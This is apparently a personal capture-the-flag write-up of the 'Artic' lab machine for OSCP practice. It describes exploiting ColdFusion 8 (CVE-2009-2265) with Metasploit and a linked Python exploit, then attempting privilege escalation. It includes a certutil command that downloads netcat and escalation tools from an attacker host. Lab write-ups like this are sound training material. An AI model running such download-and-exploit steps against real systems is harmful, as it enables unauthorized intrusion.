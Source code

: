 # Artic
Name: Artic
Date:  
Difficulty:  Easy
Goals:  OSCP Prep
Learnt: Old exploits and machines can be a headache

## Recon

![ping](Screenshots/ping-os-test.png)

There is some kind of anti-bruteforcing in place on the web server. 
Reset the box once to check and the second to continue without bruteforcing anything.
Here are the two directories:
![dirs1](Screenshots/cfdocs-dir.png)

![dirs2](Screenshots/cfide-dir.png)

`CFIDE/wizards/common/_logintowizard.cfm` and `/CFIDE/wizards/common/_authenticatewizarduser.cfm`
The default password `admin` works but so does anything else as templates but neither is linked to actual functionality of the site. Tried default password on the /administrator. Did not work. I also tried injecting a request to wait tcpdump to see if &path= variable was exploitable before dorking exploits for abode fusion 8. 

## Exploit

There is a [metasploit module](https://www.exploit-db.com/exploits/16788) for [CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265). 
Before changes:
![metasploit](Screenshots/metasploit-setup.png)

I tried on the second it worked, with the smae settings: 
```bash
set lhost tun0
set rport 8500
```
Due to the OSCP restrictions on Metasploit usage.
Here is a good is a good [python exploit](https://github.com/0xkasra/CVE-2009-2265)
![exploit](Screenshots/exploit.png)

![listen](Screenshots/listener.png)

![foothold](Screenshots/foothold.png)

Included in screenshot are possible privesc through user privileges which I may return once I enumerate the box.

![systeminfo](Screenshots/systeminfo.png)

`C:\Users\tolis\Desktop\user.txt`

## PrivEsc

Used certutil to transfer nc.exe, windowsprivchecker.bat and wes-ng
I tried alot of other things that kicked me off or did not run in either /runtime/bin and /users/tolis


```powershell
certutil.exe -urlcache -split -f "http://$IP/$tools"
```

Basically I would have to blow my metasploit on this machine.
Before reading a writeup to the walkthrough the same process I will redo the metasploit version with the post module as meterpreter just seems although a good way to end in one usage, I am at the PrivEsc phase. Plus I have not use it enough so far. Even the post module did not work. Then meterpreter did not work. I research ways to host files on windows as it seems like a hobby at this point finding and archiving every possible way to transfer files. I ended up copying and pasting into a systeminfo.txt file to this directory. Wesng works, but does not find the intend route. 

```bash
./wes.py --update
./wes.py systeminfo.txt > wesng-out.txt
```
There is a kernel exploit for the cpu that has metasploit module to it. I tried that did not work as well doing it manually compiling it, but I could not finder one of the headers. Write ups suggest a pre-compiled binary. That seems really stupid. There is metasploit module for this so this machine is basically goodbye your metasploit usage in the exam machines given time constraints. 

[manual](https://www.exploit-db.com/exploits/15589) Seems like there are errors in the script.

At this point after multiple days trying to crack this. I revert this to a walkthrough for the remaining part.
From a multitude of writeups that I have then read and watched, either its through metasploit... or a precompiled binary from github...
I will return after complete all the others to retry without the precompiled binary. 
MS10-059
